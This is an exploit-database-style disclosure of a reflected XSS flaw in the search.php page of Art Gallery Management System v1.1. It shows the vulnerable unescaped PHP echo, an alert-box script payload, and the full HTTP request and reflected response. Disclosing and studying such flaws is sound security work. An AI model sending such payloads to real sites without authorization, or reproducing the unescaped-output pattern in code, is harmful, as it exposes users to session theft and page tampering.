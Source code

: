 ```yaml
---
title: Art Gallery Management System Project v1.1 - Reflected Cross-Site Scripting (XSS)
published: true
---
```


- **Exploit Title:** Art Gallery Management System Project v1.1 - Reflected Cross-Site Scripting (XSS)
- **Application:**  Art Gallery Management System
- **Google Dork:** N/A
- **Date:** 16.03.2024
- **Bugs:** Reflected XSS
- **Exploit Author:** SoSPiro
- **Vendor Homepage:** https://phpgurukul.com/
- **Software Link:** https://phpgurukul.com/art-gallery-management-system-using-php-and-mysql/
- **Version:** 1.1
- **Tested on:** Windows 10 64 bit Wampserver 

----
### Vulnerability Description:

A security vulnerability has been identified within the `search.php` file of this application. 
It has been observed that the input provided by users when searching ($_POST['search']) is not properly sanitized. 
While the user-supplied data within the input field is directly embedded into HTML content,
necessary filtering and escaping processes have not been applied.


- `Art-Gallery-MS-PHP/agms/search.php`

```
<h3 class="title text-center mb-lg-5">
    <h2 class="head" align="center">
        Search Result Againt keyword 
        <span style="color:red">"<?php echo $_POST['search'];?>"</span>
    </h2>
    <hr />
```

In this code snippet, the data entered by the user into the search parameter is directly
embedded into HTML. Consequently, malicious users can exploit this field to
perform XSS (Cross-Site Scripting) attacks, enabling them to execute scripts in the context
of the user's browser to steal session information or modify the page.



### Impact

This security vulnerability allows attackers to steal sessioninformation through
XSS attacks on the web application, deceive users by directing them to malicious actions,
or modify page content. This can lead to the exposure of personal information, phishing attacks,
and overall compromise of the application's security. Therefore, immediate intervention to address
the security vulnerability in the application and implementation of necessary fixes are crucial.



### Proof of Concept:

1. Install The application Art Gallery Management System Project v1.1
2. Go to `http://localhost/Art-Gallery-MS-PHP/agms/search.php`
3. Now Insert XSS Payload in **`Search Here..`** input.
4. XSS has been triggered.

- the XSS Payload: `<script>alert(1111)</script>`
 
[ -> PoC ViDeO <- ](https://drive.google.com/file/d/1fHWWIss9EvYAQj2QBzkpBLQVBgZ6vTXj/view)

#### **Request**
```
POST /Art-Gallery-MS-PHP/agms/search.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: _ga=GA1.1.2080672900.1708952048
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
X-PwnFox-Color: cyan
Content-Type: application/x-www-form-urlencoded
Content-Length: 39

search=<script>alert(1111)</script>
```

#### **Response**
```
...

<h2 class="head" align="center">
               Search Result Againt keyword <span style="color:red">"<script>alert(1111)</script>

"</span></h2>

...
```
